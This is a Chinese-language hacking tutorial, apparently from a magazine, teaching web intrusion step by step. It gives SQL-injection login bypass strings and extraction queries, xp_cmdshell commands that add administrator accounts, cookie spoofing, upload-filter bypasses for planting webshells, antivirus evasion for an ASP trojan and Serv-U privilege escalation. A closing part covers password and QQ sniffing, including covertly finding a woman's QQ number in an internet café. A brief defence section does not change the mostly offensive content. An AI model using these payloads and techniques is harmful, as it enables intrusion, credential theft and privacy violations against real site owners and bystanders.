怎么样，现在可以执行任意命令了吗？什么，用 Windows 记不住这么多系统命令？累！不用急，NBSi2 也照顾小菜鸟。我们在“NB commandline 命令执行器”中选“执行 DOS 命令”后，NBSi2 会自动弹出常用的 DOS 命令；选执行 SQL 命令也同样会弹出常用的 SQL 命令（如图 19、20 所示）。


怎么样，这回直接选就行了吧，不用记那么多命令了。上面说的都是基于 sa 权限的命令执行，如果遇到一个没有 sa 权限的机器呢？没关系，其实只要有 Public 以上的权限，我们就能遍历服务器的文件了。这时，我们要请出 NBSi2 另一个实用的工具“NBTreelist”了，还是从“扫描工具”中打开“NBTreelist”，我们来看图 21 所示页面。


勾选右边“文件”和“文件夹”项，然后在“输入路径”中输入窃取获得的磁盘路径。点“列目录”……不要急，先去喝杯水。之后就看到了列出的目录信息了。通过这个工具，我们就可以了解服务器上装了什么软件、数据库在哪等信息了，是不是很实用呢？

## 2. 手动篇

常说“自己动手，丰衣足食”，只用工具是永远得不到提高的。所以我们还要学会手动注入。

说起手动注入，就不得不说一个很搞笑又很经典的漏洞。虽然这个漏洞现在已经很罕见了（但前段时间我还在某知名大学计算机系的网站发现该漏洞，更搞笑的是这个大学还开有信息安全专业，汗），但却十分实用。我们找到一个站的管理入口后，要尝试在用户名和密码处都输入 `or'='`，怎么样，直接进入后台了吗？类似的漏洞还有在用户名处输入管理员的用户名，如 `admin`，密码处输入一个 SQL 语句，同样可以通过验证，常见的这类语句有 `or'1=1--`、`or1=1--`、`or'1'='1`、`or'1'='1'--`、`or'a'='a`、`"or"="a'='a`、`') or ('a'='a` 等。

好了，还是说说常规的手动注入吧。我们打开一个类似 `www.xxx.com/xxx.asp?id=xx` 的 URL 后，先在这个 URL 后加个单引号，变成 `www.xxx.com/xxx.asp?id=xx'`，如果出现错误提示（图 22），则说明可能存在注入漏洞。然后分别提交 `www.xxx.com/xxx.asp?id=xx and 1=1` 和 `www.xxx.com/xxx.asp?id=xx and 1=2`，两次返回的页面不同，则说明有注入漏洞，我们就能展开下一步的行动了，如图 23、24。


下面先以 ACCESS 的数据库为例说说怎么手动猜数据库内容：我们先来猜数据库的表名，猜表名的语句为在注入点后加上 `and exists (select count from 表名)`。还是以 `www.xxx.com/xxx.asp?id=xx` 为例，如果我猜这个站的数据库中有个名为 `123` 的表，那就提交 `www.xxx.com/xxx.asp?id=xx and exists (select count from 123)`，结果返回错误页面（图 25），说明数据库中没有 123 这个表；那我再猜有没有 `admin` 这个表，于是提交 `www.xxx.com/xxx.asp?id=xx and exists (select count from admin)`，返回正常页面（图 26），说明存在 `admin` 表，我们可以继续猜列名。


> **小提示：常见的表名有**  
> `admin`、`a_admin`、`x_admin`、`m_admin`、`adminuser`、`admin_user`、`article`、`administrator`、`manage`、`member`、`members`、`user`、`users`、`userinfo`、`admin_userinfo`、`news`、`password`、`config`、`company`、`book`、`vote`、`bbs`、`tv_admin` 等。

好，猜出存在 `admin` 表后，我们就可以猜列名了。猜列名的语句是 `and (select count(列名) from 表名)>0`。同样的，如果返回错误，则说明此列不存在；如果返回正常，则存在此列。

这里提交的是 `www.xxx.com/xxx.asp?id=xx and (select count(username) from admin)>0`，返回正常，继续猜，可知 `admin` 表中还有 `password` 和 `id` 这两个列。

> **小提示：常见的列名有**  
> `id`、`admin`、`adminid`、`admin_id`、`adminuser`、`admin_user`、`adminuserid`、`admin_userid`、`adminusername`、`admin_username`、`adminname`、`admin_name`、`adminpwd`、`admin_pwd`、`adminpass`、`admin_pass`、`adminpassword`、`admin_password`、`administrator`、`user`、`userid`、`username`、`user_name`、`userpass`、`user_pass`、`password`、`userpassword`……

好了，猜完表名和列名，我们就该猜列长度了。猜测语句为：`and (select top 1 len(列名) from 表名)>x`。其中 `x` 是数字，替换后可通过返回结果判断该列长度。

激动人心的时候到了，我们要猜用户名和密码了。可用 ASC 和 Mid 函数：`asc(mid(列名,N,1))` 获取第 `N` 位字符的 ASCII 码，再通过区间测试确定字符。


得知第一位是 `a`，按 `N` 位递推可猜出用户名为 `admin`，按同样方式可继续猜密码。


我们可以看到，对 ASP+ACCESS 的注入主要是猜测和运气；如果遇到常见系统可直接猜用户名称。对 ASP+MSSQL 注入则不同，它不仅可直接暴出表名和库名，还可执行命令、修改数据库等。

还是以 `www.xxx.com/xxx.asp?id=xx` 为例，若通过单引号、`and 1=1` 与 `and 1=2` 判断有注入，并由报错得知为 SQL 数据库，则可提交 `having 1=1--` 触发错误并暴露表名与列名信息。


继续提交 `group by admin.id having 1=1--` 可得到列名 `username`；再提交 `group by admin.id, admin.username having 1=1--` 可继续暴出 `password`。


用类似方法持续提交直到不再报错，就可得到当前表列名。其原理是 `having 1=1--` 与 `group by` 联用时，语句不完整会返回错误并显示表名、列名。

```sql
and (select top 1 name from (select top [N] id,name from sysobjects where xtype=char(85)) T order by id desc)>1
```

其中 `[N]` 代表数据库中的第 N 个表。示例提交后可暴出表名 `admin`。

```sql
and (select top 1 col_name(object_id(表名),[N]) from sysobjects)>1
```

进一步可按上述语句爆任意表的任意列名。

# 主题乐园

（`select top 1 col_name(object_id('admin'),1) from sysobjects`）>1，我们就可以知道第1个列名为 id 了……随后通过 `and (select top 1 列名 from 表名 where id=[N])>1` 一类语句逐步读取数据；例如提交 `www.xxx.com/xxx.asp?id=xx and (select top 1 asernaose from admin where id=1)>1` 可得到 admin 表中 username 的值。

如果是 ASP+ACCESS，拿到用户名和密码后基本完成；但 SQL 注入能力更强，可以直接改写数据，如：`update 表名 set 列名='内容' where id='cf'`。例如 `...; update admin set password='123' where id='1'` 可改管理员密码；也可 `insert into admin values('123')` 新增记录。

- 1. 判断当前数据库权限：`... and user>0` 返回 `dbo` 表示为 dbo 权限。  
- 2. 获取当前数据库名：`... and db_name()>0` 返回如 `admin`。  
- 3. 利用扩展命令提权/加用户：  
  - `exec master..xp_cmdshell 'net user 123 123 /add'`
  - `exec master..xp_cmdshell 'net localgroup administrators 123 /add'`
- 4. 常见问题：可用 `and 1=1`、`and 1=2` 做手动注入检测；报错被屏蔽时可借助工具继续测试。


文中说明：当长时间找不到注入点时，可查看易被忽略的入口（打印、编辑、资料修改、自定义头像、搜索等），并引出后续“旁注”思路。

### （三）旁注及 cookies 欺骗

旁注并非只看单个站点，而是关注同服务器上多个站点的关系：若其中一站脚本更安全，也可能从同机其他站点突破；文中区分了广义旁注与狭义旁注，并举动网与 dvbbs 的例子说明。

右栏讨论 eWebEditor：很多系统把它作为在线编辑器插件，若站长不了解默认路径、默认账号密码、数据库路径，可能形成入侵机会。可通过页面按钮特征判断是否使用 eWebEditor。


文中继续给出路径尝试思路：如访问 `/edit/admin_login.asp`，尝试默认用户名密码（admin/admin）；若不行可尝试访问 `.../db/ewebeditor.mdb` 判断数据库是否可下载。最后转入“广义旁注”与 whois 信息利用的讨论。


> **小知识：什么是 cookies？**  
> cookies 是一组文本信息，伴随着用户请求和页面在 Web 服务器和浏览器之间传递。用户每次访问站点时，web 应用程序都可以读取 cookies 包含的信息，使用 cookies 能够达到记住访问者信息等目的。

某域名解析的 IP 是什么呢？得到解析的 IP 后，我们可以继续通过 whois 的查询功能，在域名记录里寻找到所有解析到这个 IP 的域名信息，这样我们就可以知道一个服务器上绑了多少个站点了。

我们继续来具体实践一下，就拿我的 cnnsafe.com 开刀吧。首先打开 http://whois.webhosting.info，在框中输入 cnnsafe.com，点 Go，来到图37所示页面，得到 CNN 安全网的 IP，再点它，就会来到图38所示页面，还拥有几个域名在这里，呵呵，可以再看看其它站有没有什么洞了。如果 IE 不好，也可以用老兵的工具查询，步骤是一样的。找到在同一服务器上的站后，就用前面的方法检查站点的安全性吧。


# 2. Cookies 欺骗

现在有很多系统为了方便网友浏览，都使用了 cookies 技术以避免多次输入用户名和密码等信息，那么，我们只要对服务器递交给用户的 cookie 进行改写，也就是 cookies 欺骗，以达到欺骗服务器程序的目的。

我们大致了解了一下 cookies 欺骗的原理，就来看一下它的成因。cookies 欺骗的成因一般是对 cookies 构造验证不严，如当年动网 6.0 的漏洞及前段时间 leadbbs3.14 插件美化版的欺骗。其中 leadbbs3.14 插件美化版的欺骗较为严重，虽然可以直接登录后台，让我这个 leadbbs 的忠实 fans 着实兴奋了一个晚上（第二天得知有漏洞的是美化插件版，而官方的 3.14a 补丁 N 年前就补了这个洞，汗）。为了让大家对这个验证不严造成的 cookies 欺骗有感性的认识，征得偶朋友“白天的猪”的同意，现将它写的对 lead 欺骗的文章引用如下：

经多次测试及在火狐兄弟们的帮助下，发现在 Leadbbs 3.14 美化插件版能欺骗成功（官方说是在某一时段发布的 leadbbs3.14 论坛存在这个漏洞，估计美化的人正好下了那一时段的版本），而非美化插件版试了十多个论坛都不行！所以这次的目标是 Leadbbs 美化插件版。首先在百度上输入关键字“下载 leadbbs 美化插件版”，搜索出了一大堆帖子，随便点了一个页面，看到了程序的演示地址，目标就是它的演示地址。进到演示地址的那个论坛，用 IE 注册了一个帐号，这时拿出 mini 浏览器，在 URL 中填入论坛地址，点 get，但当页面打开到一半时突然出现奇怪的现象，如图39。


根本无法登录。难道说他们早已发现这个漏洞然后自己开发出了补丁？反复试了几次还是这样，后来查看了一下论坛首页的代码，发现原来是太极链计数器搞的鬼。回到 mini 浏览器，点击“settings”这个选项，在“show GET-Dialog”这项前面打上钩，再在 URL 上输入论坛地址，点 get，当页面载入一半时出现了一个框框，图40。

这时只要点 cancel 就不会发生图39这种现象了。下面开始欺骗。在管理员团队中找到总版主的 ID，在 mini 浏览器上选择 cookies 这项，看到 cookies 是这样的：

# 主题乐园


BBSXP 为例，登录后，我们提取用户名为光芒果、密码为 123456 的用户 cookies，“username=” 后面的就对应用户名光芒果，“password=” 后面的就对应 123456 的 MD5 密码，有些 cookies 中还会包含 url，这也是可以明显看出来的。记得那时 BBSXP5.15 不是传出个 blog.asp 的漏洞吗？其实这个漏洞是我首发的，只不过大过年的没有深入研究，告诉 yuzi 又置之不理，活该他倒霉。现在我们拿出 BBSXP 破解器，如图42所示，输入注入点详情信息，点破解，嘿，区长的 MD5 是不是出来了啊（图43）？

```
gbtoyAftB=0; path=/
ASPSESSIONIDAQDRPDBD=DMMBDEPBNOGQKDGKBKEHGHAN; path=/
gbtoyTime=2005%2D3%2D25+19%3A48%3A19; path=/
gbtoy_pass=...; path=/
```

其中“user=”后面的就是 ID 了，把总统府的 ID 换上去，先点一次 get，看反应，再点一次 post，呵呵，变为总统府了，图41。接着在 URL 上输入 `blank re=oncfollow?www.xxx.com/bbs/manage`，这个是 leadbbs 的默认后台管理地址，点 get，进后台传马去了。


怎么样，可怕吧！即使是验证没问题，还是可能造成 cookies 欺骗的。其实对 cookies 的欺骗无外乎就是用户名和密码。

我们再拿出老兵的修改 cookies 浏览器，登录这个 BBSXP 的论坛后，点击上方那个小锁头（图44），把“username=光芒果”中的“光芒果”改为区长的用户名，“password=”后面的换成爆出的 MD5 密码。刷新，如图45所示，我们变成社区区长了，神吧！


对于 cookies 欺骗，我还发现了一种新的方法，就是以前台欺骗后台。大家也许要问我，前面那个 leadbbs3.14 美化插件版不是可以直接欺骗后台吗？不错，但并不是所有系统的前、后台的 cookies 都是相同的，如动力 3.0，这可是个老系统，各方面的漏洞都很多，但得到的密码是 MD5 的，可不太好玩。

别急，不是还有 cookies 欺骗吗？先在本地架个一样的系统，还是用老兵的修改 cookies 的浏览器，访问本地系统的后台，提取 cookies，这下我们得到了 cookies 的样式，再把通过其它手段得到的欲入侵站点的用户名和密码等替换这个 cookies 的相应信息保存起来，然后我们到欲入侵站点注册一个用户点“发表文章”，切换到“源代码”模式，输入 `<a href="admin_index.asp">cookies 欺骗</a>`，切换到“预览”，把当前的 cookies 改为先前保留的 cookies，点击“cookies 欺骗”链接……


（2）添加上传类型上传。如果不能直接上传，可查看是否有添加上传类型的地方；有的话添加一个 ASP 即可。若系统限制不允许上传 ASP 文件，可尝试允许上传 ASA、CER 等类型，再把 .asp 后缀改为 ASA 或 CER 上传。


关于 cookies 欺骗一节……有问题可以到 x 档案论坛提出。

### （四）获取 webshell

上面说了那么多的入侵方法，终极目的只有一个——获取 webshell。那么我就给大家讲几个常用的 webshell 获取方法。

- 1. 上传

说到上传获得 webshell，不得不提早期的上传漏洞利用……先提取 cookies，找到上传点，上传后检查是否得到一个 shell。

（1）进入后台直接上传：有些系统后台上传点可直接使用。  
（2）添加上传类型上传：通过后台类型配置绕过限制。  
（3）抓包上传：利用抓包工具修改上传请求（如在文件名后加空格等）绕过过滤。


（3）抓包上传，这里需要利用 Win2000 的一个小漏洞……在 WsockExpert 中修改请求后提交，可成功上传。


（4）利用表单冲突上传。最典型的是动力 3.51 的上传。注册用户后到发文处，切换“源代码”模式，输入下面代码。

```html
<FORM name="form1" onsubmit="return check()" action="upfile_article.asp" method="post" enctype="multipart/form-data">
<INPUT class="x" type="file" name="FileName">
<INPUT class="x" type="file" name="FileName">
style="BORDER-RIGHT: rgb(88,88,88) 1px double; BORDER-TOP: rgb(88,88,88) 1px double; FONT-WEIGHT: normal; FONT-SIZE: 9pt; BORDER-LEFT: rgb(88,88,88) 1px double; LINE-HEIGHT: normal; BORDER-BOTTOM: rgb(88,88,88) 1px double; FONT-STYLE: normal; FONT-VARIANT: normal"
type=submit value=上传 name=Submit></FORM>
```

再来到“预览”模式，是不是看到了两个选择上传文件的框却只有一个上传按钮啊（图51）？我们在第一个框处选择一个 ASP 文件，第二个框处选择一个 jpg 文件，然后点上传。可能会提示冲突，但我们返回“源代码”模式，就可以看到我们上传后的 webshell 地址了。


- 1. **（5）利用代码对文件类型的限制上传。** 现在许多代码为了安全都限制了上传 ASP 文件，但一些代码的限制方法实在令我不敢恭维。我见过有些代码的限制方式是一遇到 ASP 就把它去掉。那么，我们完全可以添加一个上传类型“ASASPP”，这样一来，在上传过程中代码会把中间的 ASP 去掉，后缀自然也就变为 ASP 了。  
- 2. **（6）利用其它上传工具。** 老兵的万能工具虽名为万能，但因为有些系统的上传代码与动网的是有差异的，所以这个工具对它就失效了。

# 2. 写入过滤不完全

因为现在许多系统都是可以用 FSO 功能直接写入文件的，如果写入文件的过滤不完全，也可以直接往里写个 webshell，如动易的 conifer.asp。这里我要讲的是 leadbbs 后台友情链接添加处写入 webshell，我们来到后台的添加友情链接处，点“新增文档链接”，然后在“网站名称”处填上海阳的一句话木马，其它乱填（图52），然后我们用客户端连接，成功了吧！（图53）


除了对文件写入的过滤外，还有对数据库写入的过滤。当我们暴库得知数据库后缀为 ASP，但用网际快车能下载时，我们就可以确定这个数据库里不包含 ASP 语句，那么我们只要找到一个可以写入数据库的地方，写入一句话木马，再用客户端连接，一样可以成功的。

# 3. 后台备份及恢复

说起后台的备份和恢复获取 webshell，我可算是颇有研究，也可以说是从这里起步学习技术的。先说说常规的方法吧，一般我们就是把一个 ASP 木马改为 gif 后缀上传，然后记下上传后的地址。下面，我们来到数据库备份页面（图54），在“数据库路径”处填自己刚才上传的文件名，在“备份后路径”处填自己想要得到的地址，注意后缀为 ASP，点“备份”后我们就得到了自己想要的 webshell。


但是，如果像动力一样不允许定义当前数据库地址呢？一样可以的，我们通过暴库后台看到动力的数据库地址，一样可以把一个 ASP 木马改为 gif 格式，然后上传。现在，我们来到“数据库恢复”页面，看到没有，可以自定义恢复数据库的路径（图55），我们选择我们刚才上传的文件路径，恢复（图56），恢复成功后整个系统是用不了，但我们只须直接访问数据库地址就可以得到 webshell 了。当然，为了不被别人发现，最好还是先把数据库备份好，得到 shell 后再用 shell 恢复回去。至此，数据库备份和恢复的利用似乎完了，其实还没有，还是那个动力系统，如果我们无法得到数据库地址，或者数据库是 mdb 的，我们不就用不上面的方法了吗？别急，再绕个弯子。


# 主题乐园


图56

我们来仔细看看这个动力系统。备份处限制了只能备份当前的数据库，不能备份其它文件，且备份后文件后缀限为 ASA，但可以自定义文件名。恢复处只能把数据恢复到当前数据库文件……


图57

对于限制没那么严的动网，我们可以直接备份就行了。虽然 v7.1 中对备份处做了限制，但恢复处可没限制，条件比动网松很多了。

# 4. SQL 导出

对于有注入点的 SQL 站点，我们还可以用黑客界中的“SQL 写入导出大法”得到 webshell……为了不让管理员发现，我们还要删除这个新建的表。


图58

### （五）webshell 的使用方法及提权

1. webshell 的基本使用方法

上面说了那么多，相信大家已经能够拿到属于自己的 shell 了吧。拿到 webshell 后该怎么使用呢？下面我就以海阳 2006 ASP 木马为例说说 webshell 的一些基本使用方法。首先，我们来下载海阳 2006 木马文件包，解压后有 7 个文件……

2006Z.exe、hididi.ini、ReadMe.txt。其中 2006.asp 就是 ASP 木马的主文件……我们可以看到如图59所示页面。它列举了 13 项大的功能，这里我只挑其中的一部分来讲解。


图59

首先看第8项功能：FSO 文件浏览操作器。如果权限足够的话，我们可以在这里对服务器上的任何路径进行包括新建、删除、读取、修改、改属性、运行等文件操作。下面再来看 wscript.shell 程序运行器……

我们来看看海阳 2006 ASP 木马的第 1-5 项功能，这些有的是帮助我们收集服务器信息的，有助于我们进一步的入侵。进入“系统服务信息”后，可以看到系统打开的所有服务和详细说明……

第十一个功能“文件打包功能”是海阳 2006 新增的一个亮点……另外，如果服务器支持 FSO，我们也可以用这个功能在服务器上解包。海阳 ASP 木马还增加了一些零碎的小东西……

除了海阳 ASP 木马的主文件外，它的压缩包里的其它文件也是大有用途……运行 2006x.exe，按“打开”选择木马文件 2006.asp，再填好服务器密码，按“转换”……我们就可以往服务器写入任意代码了。

图60

另外，我们还可以自己定制海阳2006的功能。如我们只需要FSO文件浏览器，就运行2006Z.exe（图61），在“页面选择”处选FSO文件浏览操作器，选择母源文件2006.asp和生成后的文件名后点“生成”……（图62），是不是很方便啊？

## 2. ASP木马的加密及防杀

随着ASP木马的泛滥，杀毒软件也把ASP木马列为严厉打击对象。我们辛苦得到后台却被查杀，确实郁闷。要么换匹不被杀的马，要么加壳。先说换马：海阳名气最大，常成查杀重点；可用老兵的ASP站长助手6.0，以及修改版工具来绕过查杀。文中还提到“特征码”“一句话木马”等思路。

还有一个免杀的方法是对ASP木马进行加密。这里我们要用到一个工具——ASP木马加密免杀工具，操作很简单：选好木马源文件，先点“转换”，再点“加密”即可。

## 3. webshell的提权

一个webshell的权限通常很小，需要提权才能进行下一步。文中先介绍利用serv-u相关漏洞提升webshell权限的方法：检查serv-u的ServUDaemon.ini是否可写；若可写，可进一步获取管理员权限。

在`[Domain]`中加入：

```ini
user9=[cnnsafe|1|0
```

并添加用户段：

```ini
[USER=cnnsafe]
password=
HomeDir=c:\winnt\system32
TimeOut=60
Maintenance=system
Access1=c:\winnt\system32;RWAMELCDP
SKEYValues=
```

保存后用FTP客户端登录（用户名cnnsafe，密码为空），执行：`quote site exec net user cnnsafe cnnsafe /add` 和 `quote site exec net localgroup administrators cnnsafe /add`，即可得到管理员权限。

若ServUDaemon.ini不可写，还可利用serv-u本地溢出漏洞提权：上传提权工具（如su.exe）到可执行目录，在wscript.shell中执行。另可尝试跳转到pcAnywhere目录，下载CIF文件获取登录密码；或下载SAM表配合LC5破解；以及通过ASP.dll等方式提权。

# 防范篇

## （一）暴库、注入的防范

对于常见脚本攻击，防火墙作用有限，仍需应用层防范。暴库往往依赖服务器返回错误信息，因此可在IIS应用程序配置中设置“向客户端发送下列文件错误消息”（文中提到图64），减少详细报错回显。

若是虚拟主机用户，可在conn.asp后加一句：`On Error Resume Next`，让脚本出错后继续执行，避免把错误细节返回给攻击者；也可配合其他IIS映射与错误处理策略继续加固。

主题乐园

设置禁止访问.mdb文件，或把数据库放到Web外……这样即使不被篡库也下载不了。对于注入攻击，现在网上有很多专用的防注入程序……并且还可以自定义过滤字符，把攻击者动作记录到数据库中。

图64

图65

另外，对于ASP+ACCESS，其实Md5也是入侵者的一大阻碍……一般的Md5破解工具都是按原版编写的，如果得不到我们改动后的Md5.asp文件，加密出来的密码是根本无法破解的。

如果你不幸被入侵了，网站上留下了webshell该怎么办呢……可以用思易ASP木马追捕工具对木马文件进行追捕，调用FSO，有删除、新建和上传功能，还能关键字查找。

这里再介绍一个最简单的替换Md5.asp的方法……我们一般会把数据库地址放得很隐秘，但如果后台用户名和明文密码泄露，也可以通过改后台地址与账号形式降低被猜测概率。

## 浅谈防范工具的安全性

在“防范篇”中给大家介绍了两个防范用的ASP文件，那这些工具自身的安全性怎么样呢？

### 1. 防注入程序的安全性

火狐的SQL通用防注入程序也有漏洞，在2.0中可无限提交信息；记录注入数据库不断增大；3.0版本中有跨站漏洞，3.1B之前版本未对Cookies注入加以防范。

#### 2. 思易ASP木马追捕的安全性

程序本身问题不大，但许多管理员偷懒，使用后不删除文件，导致可被利用遍历目录找到数据库并下载。随后作者总结了个人入侵与防范经验，以及常用相关工具。

## （二）上传漏洞及数据备份、写入过滤不严的防范

对于脚本系统，上传是高风险点。可通过修改后缀策略（如gif/rar）等方式降低风险；数据库备份建议删除文件前先备份，并在conn.asp后加入防注入代码。

## （三）旁注的防范

旁注防范主要依赖服务器权限分配；还可采用域名解析与WHOIS信息干扰等方法提高攻击者定位难度。

## （四）入侵后的防范

# 嗅探（Sniffer）——看不见的攻击

### 轻松掌握Sniffer

“哎哟，又失败了！”小黑一摔鼠标道。老黑探过头来询问后，小黑抱怨入侵越来越难：系统补丁、IDS、杀毒软件越来越多，攻击成本变高。老黑表示攻防本就是动态过程，漏洞减少说明整体安全水平提升。

小黑追问该怎么办。老黑解释：攻击与防御是相对过程，从最初简单攻击，到如今需要隐蔽与持续渗透，技术要结合实际灵活运用。主动攻击之外，被动攻击同样重要。

| 主动攻击 | 被动攻击 |
|---|---|
| 探测 | 网络钓鱼 |
| 扫描 | 嗅探 |
| 攻击网络服务 | …… |
| 提升权限 |  |
| DOS拒绝服务 |  |

文中以对话方式引出Sniffer：其本义为“嗅探器”，用于截获网络中的数据包并进行分析。它是网络管理员排障、定位性能问题的重要工具，也可能被攻击者用于隐蔽侦察。

文中举例说明：当出现大量ICMP包或TCP连接异常时，可在出口部署Sniffer分析流量来源、目的地与行为特征，以判断是攻击、病毒传播还是配置故障，并据此采取针对性措施。

对开发人员而言，Sniffer也是调试网络程序的常用手段。通过抓包与协议对照，可快速定位发送端、接收端或传输链路问题。

> “嗅探器如双刃剑：可用于管理与诊断，也可能被滥用于攻击与窃听。”

文中继续讨论Sniffer的隐蔽性与危害性，指出其在内网环境下尤其值得警惕。由于被动监听通常不直接干扰业务流，往往不易被第一时间发现。

随后区分软件嗅探器与硬件嗅探器：软件方式成本低、使用方便，但在高负载或复杂环境下可能存在覆盖不全；硬件分析设备功能更强、分析更全面，但价格更高。

左栏后续对话回到实战主题：技术并非固定模板，攻击与防御都需结合场景。小黑催促进入“如何使用Sniffer攻击”的具体内容，老黑强调先理解原理再谈操作。

## 三、神奇的嗅探原理

新小节开头指出：学习嗅探技术应先掌握其工作机理。嗅探器的首要功能是抓包，即获取网络中传输的数据帧/数据包，再进行解析与判断。

主题乐园

“接收的包，这是最简单的，我就不再赘述了，从底层设备层到上层应用层都可以实现，如图2。”

“第二种抓包是抓取广播环境下的通信包，这个原理就稍微复杂点了。”

“在使用HUB（集线器）组成的局域网环境中，传输是以广播形式发送的，如图3。”

“在图3中，机器A要发数据给机器B，A先发送数据到HUB上，HUB收到后把数据按广播形式发给其他所有的口，所以同一HUB下的机器B和机器C都能接收到数据。”

“但在通常情况下，网卡收到数据后，会通过数据头的目的MAC地址判断是不是发给本机的，如果是，才上传给操作系统；如果不是，就直接丢弃。所以目的地址不是自己的数据，网卡就截断了，计算机根本不知道。例子中的机器B和机器C的处理流程如图4所示。”

“机器B会将数据往上层传递并处理，而机器C的网卡自动将数据丢弃。”

“但只要将网卡设为混杂模式，网卡就不会那么‘高风亮节’了，它会把所有数据包都往上层传，有多少传多少，全交给程序判断处理，如图5。”

“这就是最基本的广播环境下嗅探的原理了！”

“而第三种抓包是在交换环境下抓包。由交换机组成的局域网，情况又不一样了。”

“交换机和HUB的最大区别，就是交换机内部能记录每个口所连接机器的MAC地址，交换机收到数据包后会判断该发到哪个端口，只发到目标端口，而不是像共享HUB那样发给所有端口。”

“这提高了系统的安全性，如图6。”

“所以HUB同一时间通常只能一对通信，而交换机的不同端口之间可并行传输。”

机器发数据时在HUB环境中所有机器都能接收，而交换机中，只要不是广播数据，同一时间可以对所有机器进行数据传输，并且数据是私有的。

“哦，回到嗅探上来说，就是说在交换环境中，别的机器发给别的机器的数据包，可能根本不经过自己机器可接的端口，更谈不上经过自己机器的网卡了，这如何嗅探呢？”

“这就要用更高的技术——ARP欺骗了。”

“嗅探器的第二个功能是重组功能。因为网络中传输的数据通常是二进制形式，必须在获取数据包后按协议重组，才能进一步分析。”

“综上所述，嗅探器的两个功能是抓包和重组。”

### 三、小巧的X-Sniffer和未遇英雄

“首先看看X-Sniffer吧，虽然这是很早的作品，但还是非常实用，诸多感兴趣的东西可以‘嗅’到。”

“是DOS控制台下的程序啊，如何使用呢？”

“这个不用担心，一般程序会有完整提示信息。输入程序名，X-Sniffer会显示log和程序使用帮助。”

主题乐园

“回到我们的X-Sniffer吧，它的使用方法我通过实例来解释。”

“比如我们输入`xsniff.exe -tcp`，则捕获局域网所有的TCP包并输出到屏幕上，效果如图8所示。”

“是的，可以看出，X-Sniffer是一款短小精悍的sniffer，其嗅探到的数据经过多重过滤，数据量小、结构单一，不需要任何分析就可以得到我们想要的数据，很适合新手使用。特别是，如果要嗅探局域网中传输的FTP/SMTP/POP3/HTTP密码，X-Sniffer是一个很不错的选择。”

老黑正想举个例子，突然机器传出嘀嘀声。小黑看了下：“哎呀呀？防火墙报警啦（图9）！”

“靠，有木马！”老黑看了一眼报警信息。

“报警信息的意思是，程序正在和远端的25端口通信。25端口是SMTP服务用的端口，而SMTP是用来发送邮件的协议。我们现在根本没有开启电子邮件相关东西，更谈不上邮件发送了，一定是木马获取了密码后，正在往它主子的邮箱发送带有用户名和密码的邮件呢！”

“喂！这可怎么办啊？”

老黑想了一会，“哈哈，这正是X-Sniffer大显身手的时候啊！”

“现在的邮件服务器为了防止垃圾邮件，都要求在使用SMTP发送邮件时使用身份验证，这就需要SMTP客户端程序在发送邮件前，发送邮箱的用户名和密码。”

“一般的网站都没有对用户名和密码进行加密，虽然用户名和密码经过Base64编码，但Base64编码是公开且完全可逆的，X-Sniffer能自动解码，所以可以很方便地得到用户名和明文密码！”

“哦！我明白了，我们使用X-Sniffer抓木马使用的邮箱和密码！”

“快快快，我们尝试登录一下。”小黑迫不及待。

“哈哈，登录成功，小样！哇！好多好多QQ号码和密码啊。这个家伙，用什么方法种了这么多木马！”

“多半用的是另一种被动攻击法——网络钓鱼吧。不管怎么说，我们先把它的邮箱密码改了！免得它再害人！”

“好呢！……咦，这是什么？哇，好多密码啊！”

只见刚才忘记关闭的xsniffer，继续抓下了很多用户名和密码（图11）。

“这是怎么回事啊？除了刚才那个木马的邮箱和密码外，还抓了很多其他的用户名和密码？”

“呵呵，这是个HUB组成的共享环境，所以xsniffer还捕获了许多其他机器发送的用户名和密码！”

“NO，偷看别人邮箱，既不道德，也没什么意思。”

老黑接着说道：“我们不要邮箱的密码，要就要机器的密码或QQ的密码！”

“啊？你的意思是？”

“我们把木马文件拷贝到另一台机器上运行，然后登录QQ，胡乱输入用户名和密码，却用这台机器抓包。木马中招后，我们的xsniffer抓到了邮箱和密码（图10）！”

小黑一听，差点没背过去，还以为老黑要发扬风格呢。

“这怎么获得啊？难道还是通过嗅探吗？据我所知，机器的登录密码或QQ的密码都是加密传输的。”

“呵呵，是的，但关键是，人是有惰性的，特别是对安全不太在意的一般人，邮箱的密码、主机的密码，甚至QQ的密码都可能使用的是同一个！”

“对啊，所以我们获得邮箱密码后，可以当成主机的密码尝试登录对应的机器；而对于QQ，配合qqsniffer获得QQ号码后，就可以大胆地尝试QQ号码和密码了！”

“如何配合qqsniffer使用呢？”

老黑想了想，最后补充道：“并不是所有网站的邮箱密码都可以捕获的，比如像Gmail这样的邮箱。网页状态栏上有个锁，表示网页使用了SSL层，用户名和密码都是经过加密后再传输的，Sniffer捕获后也不能获得明文。看来Google的东西确实考虑得周到啊（图12）！”

### 四、QQ密码绝密嗅

“现在我们来看QQSniffer。”

“QQSniffer可以嗅探获取局域网内正在使用的QQ号码，虽然QQSniffer只能在支持RAW SOCKET的机器上运行，而且还得是非交换的广播局域网，但对于一般情况已经足够用了。”

“我们悄悄地使用一下。运行QQSniffer后，只要别人的QQ发送或接收消息，QQSniffer就会显示出其IP地址和对应的QQ号码，运行效果如图13所示。”

图13

“哦，说了半天只能获得QQ号码啊。怎么没有密码呢？”小黑不满地说道。

“呵呵，能获得QQ号码已经不是那么简单的事情了，是作者cooldiyer分析了很久的QQ协议才得到的结果！如果能直接嗅探到QQ密码，那腾讯早就不用混了。俗话说：吃水不忘挖井人。我们应当为cooldiyer的辛勤劳动和公布源码的行为致敬！追求和公开，才是传统的黑客精神，只有大家一代代把这种黑客精神继承下去并发展，技术才能进步！”

“比如，小黑你可以结合QQSniffer代码和后面要讲的ARP嗅探，改进出能在交换环境下嗅探QQ号码的qq嗅。”

“哦？这么难，听都没听懂，我就先不想了。”

“好了，更深入的知识先不提了。有了QQSniffer，我们在网吧上网时，就可以随意知道某位mm的QQ号码了。”

“唉？网吧这么多人，这么多号码，如何知道那个号码是mm的呢？”

“有个办法，先悄悄记下mm所坐机器的编号。在网吧，一般机器的编号就是IP地址的最后一位；回到自己的座位上，进入DOS控制台输入ipconfig，查看网吧的IP地址分配情况（图14）。”

图14

“IP地址的最后一位是177，在意料之中，因为自己机器的编号也是177。”

“然后开启QQSniffer，呵呵，当发现嗅探到的IP地址的最后一位是mm座位编号时，就找到那位mm的QQ号码了。”

“哦！真不是一点花花肠子啊，这都想得到。”

“而且配合X-Sniffer，连QQ的密码都可以尝试获得哦！”

